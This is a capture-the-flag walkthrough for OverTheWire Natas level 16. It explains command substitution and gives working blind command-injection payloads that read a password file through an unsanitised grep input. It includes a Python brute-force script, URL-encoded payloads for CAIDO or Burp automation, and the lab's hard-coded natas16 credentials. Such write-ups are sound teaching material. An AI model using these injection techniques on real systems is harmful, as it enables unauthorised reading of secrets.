# 🕸️Natas Level 16 → Level 17

```
http://natas16.natas.labs.overthewire.org
```
Username: natas16  
Password: (natas16_password)



We examine the **source page** and notice that this time the input is being filtered, and certain **special characters** are not allowed.
```
grep -i \"$key\" dictionary.txt
```


### 🧠 What is command substitution?

⚙️ **Command substitution** is a shell feature that runs a command and replaces the command expression with that command’s standard output (stdout).
It’s how you embed the result of a command into another command, a variable, or a script string.

---

### 📘 Syntax (POSIX / bash / zsh)
Two common forms:  
-  $(command) — ✅ preferred, 🧩 readable, and 🪆 nestable
-  \`command\` — 🕰️ older style (⚠️ harder to nest and escape)

### 💉 type of command injection


---

### 🧪 Test Case to Help You Understand the Concept

Here’s a test case designed to make the concept easier to grasp and apply.



**What’s going on here?** Why does it return an **empty result** sometimes and **a value** other times?

The section below demonstrates what happens when the command is executed.



**Great!** Now we know which **characters** it contains — but another question comes up: how can we determine **the order of the content**?

**The solution** uses the **caret symbol** ``^``.
**In regular expressions**, ``^`` matches the start of a line.
**For example**, ``^Hello`` will match the word “Hello” only if it appears at the beginning of a line.

**In regular expressions**, the ``.`` (dot) represents any **single character**, and the ``*`` (asterisk) means **zero or more occurrences** of the preceding element.
This pattern ``.*`` will match **everything, including spaces, newlines, or even no characters at all**.



Here’s an **example** of what happens when we combine it with our **command substitution**.



---

There are several ways to tackle this challenge, but the key is to grasp the underlying concept 🧠. With a bit of research 🔍, time ⏳, and creativity ✨, you can also craft your own solution.
Here are two approaches you can try:
- Method 1 — Python scripting 🐍
- Method 2 — Web security testing tools 🛠️

---

### Method 1 — Python scripting 🐍


```
import requests

# Define the characters that may appear in the password
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Credentials for natas16
username = "natas16"
password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

# Target URL
url = "http://natas16.natas.labs.overthewire.org"

# Start a session to persist cookies and headers across requests
session = requests.Session()

# This will store the discovered password characters
current_password = []

# Stop when full password 32 character long is discovered
while len(current_password) < 32:
    for character in characters:
        # Build the current guess
        guess = "".join(current_password) + character
        # print(f"Guessing with: {guess}") #verbose mode

        # Command Injection Payload:
        # $(grep ^character.* /etc/natas_webpass/natas17)zeros 
        payload = f'$(grep ^{guess}.* /etc/natas_webpass/natas17)zeros'

        # Send request with command injection payload
        response = session.post(
            url,
            data={"needle": payload},
            auth=(username, password)
        )

        # Check for success message in the response
        if "zeros" not in response.text:
            current_password.append(character)  # Correct character found
            print("brute-forcing progress: " + "".join(current_password)) # printing progress
            break  # Go to the next character in the password


# Print the discovered password
print("Password Found: " + "".join(current_password))


```

Be sure to make the file executable before running it.
```
chmod +x bruteforce_n16.py
```


Let it run and enjoy a cup of tea ☕ — it should be finished by the time you get back.



---

### Method 2 — Web security testing tools 🛠️

You can use **BurpSuite** or **CAIDO** to complete this task, but I prefer CAIDO since its menu is less intimidating than BurpSuite’s and more beginner-friendly.

Server side query
```
grep -i "$(grep ^a.* /etc/natas_webpass/natas17)zeros" dictionary.txt
```
Command injection code
```
$(grep ^a.* /etc/natas_webpass/natas17)zeros
```
Start by capturing the request, then send it to Automate.



URL decode
```
$(grep ^a.* /etc/natas_webpass/natas17)zeros
```
URL encode
```
%24%28grep+%5Ea.*+%2Fetc%2Fnatas_webpass%2Fnatas17%29zeros
```
Configure the **payload** to include `a-z, A-Z, and 0-9`, then execute it.



Then we find the responses with different lengths and discover that the **first character** of our password is a capital `E`.



We could repeat this process **31 more times** to uncover the **entire password**, but that would be *inefficient* and *redundant*.

I’d like to tackle this in a more **creative way** by combining the `cut` command with **nested command substitution** and leveraging CAIDO’s **Matrix attack** feature, then filtering the responses to extract the answer.



Command injection code (URL decode)
```
$(grep ^$(cut -c1-1 /etc/natas_webpass/natas17)a.* /etc/natas_webpass/natas17)zeros
```
URL encode
```
%24%28grep+%5E%24%28cut+-c1-1+%2Fetc%2Fnatas_webpass%2Fnatas17%29a.*+%2Fetc%2Fnatas_webpass%2Fnatas17%29zeros
```

Start by capturing the request, then forward it to **Automate**.



Select the **Matrix** attack option, or use the **Cluster Bomb** feature in **BurpSuite**.



Set the **first payload** to range from **1 to 31**, incrementing by **1**, for each character in the password.



Configure the **second payload** with `a-z, A-Z, and 0-9` to test every possible character in the password. Then click the **Run** button.



After all **1,922 requests** are sent, click **Length** to filter for responses of different lengths, which reveal **characters 2 to 32** of the password.



With the **first character** of the password from the earlier output, we are now able to retrieve the complete password.

